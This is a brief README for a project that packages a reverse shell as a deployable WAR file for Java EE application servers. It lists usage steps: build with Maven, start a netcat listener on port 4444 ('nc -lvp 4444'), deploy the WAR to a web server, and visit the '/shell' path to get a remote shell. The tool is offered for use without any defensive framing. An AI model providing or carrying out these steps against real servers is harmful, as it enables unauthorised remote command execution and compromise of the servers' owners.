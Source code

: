 # Java-Web-ReverseShell
Java WebServeur Reverse Shell

A war-ready reverse shell to deploy on Java EE application server

## usage

1.
`mvn clean install`
to compile the war


2.
`nc -lvp 4444`
to listen to connection


3.
deploy on the web serveur & go to <deploy_path>/shell


4. enjoy your shell
